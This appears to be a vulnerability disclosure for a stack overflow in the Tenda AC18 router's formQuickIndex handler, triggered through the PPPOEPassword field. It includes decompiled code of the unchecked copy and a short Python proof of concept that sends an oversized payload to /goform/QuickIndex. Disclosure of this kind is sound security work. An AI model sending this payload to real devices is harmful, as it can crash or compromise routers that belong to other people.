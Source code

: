 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formQuickIndex` function. The `v8` variable receives the `PPPOEPassword` parameter from a POST request and is later assigned to the `s` variable, which is fixed at 72 bytes. However, since the user can control the input of  `PPPOEPassword`, in function `sub_4F7C0`, the statement: 

```c
_BYTE *__fastcall sub_4F7C0(_BYTE *result, _BYTE *a2)
{
  _BYTE *v2; // [sp+0h] [bp-Ch]
  _BYTE *v3; // [sp+4h] [bp-8h]

  v3 = result;
  v2 = a2;
  if ( result && a2 )
  {
    while ( *v3 )
    {
      if ( *v3 == 92 )
        ++v3;
      *v2++ = *v3++;
    }
    *v2 = 0;
  }
  return result;
}
```

can cause a stack overflow. The user-provided  `PPPOEPassword` can exceed the capacity of the `s` array, triggering this security vulnerability.

![image-20240306173835516](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306173835516.png)

![image-20240306173852758](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306173852758.png)

![image-20240306174000517](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306174000517.png)

![image-20240306174138778](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306174138778.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/QuickIndex"
payload = b"a"*1000

data = {"mit_linktype":"2","PPPOEPassword": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240306173457625](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306173457625.png)
